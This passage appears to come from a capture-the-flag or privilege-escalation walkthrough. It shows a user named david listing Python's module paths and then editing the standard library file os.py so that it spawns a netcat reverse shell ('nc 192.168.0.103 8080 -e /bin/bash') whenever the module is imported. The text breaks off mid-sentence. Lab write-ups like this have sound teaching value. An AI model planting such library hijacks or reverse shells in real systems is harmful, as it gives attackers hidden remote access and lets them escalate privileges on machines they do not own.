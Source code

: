 **Issue:** The error occurs because the `os` module is imported, but the `system` function is called incorrectly. The correct usage should reference the imported `system` function directly, without the `os.` prefix.

Since David does not have the necessary permissions to modify the file and fix the syntax error, we must explore alternative methods to achieve our objective.
We can consider an alternative approach by **modifying the `os.py` module** itself. This module is part of Python's standard library and contains the `system` function used in the script.

```bash
david@system:~$ python3.9 -c 'import sys; print("\n".join(sys.path))'
```

**Key points:** 
- `import sys`: Imports the `sys` module, which provides access to system-specific parameters and functions.
- `sys.path`: This is a list of directories that Python searches for modules when you use an `import` statement.
- `"\n".join(sys.path)`: Joins the elements of the `sys.path` list into a single string, with each directory separated by a newline character (`\n`).
- `print(...)`: Outputs the resulting string to the terminal.

**OUTPUT**

```bash
/usr/lib/python39.zip
/usr/lib/python3.9
/usr/lib/python3.9/lib-dynload
/usr/local/lib/python3.9/dist-packages
/usr/lib/python3/dist-packages
```

Let´s go to `/usr/lib/python3.9` and open `os.py` and add these lines to the end of the file :

#### Step 3: Set up reverse shell

Using vim:

```bash
vim os.py
```

```python
### REVERSE SHELL ###
import subprocess
subprocess.call("nc " + "192.168.0.103 8080 -e /bin/bash", shell=True)
```

**Key points:** 
- The `subprocess` module is part of Python's standard library and allows you to spawn new processes, interact with their input/output/error pipes, and obtain their return codes.
- `shell=True` This argument tells the `subprocess.call` function to execute the command through the system's shell.

**Note:** To avoid breaking the `os.py` file it is recommended to put these lines at the end so that they are executed after the file has been loaded.

Let´s go a our terminañ:
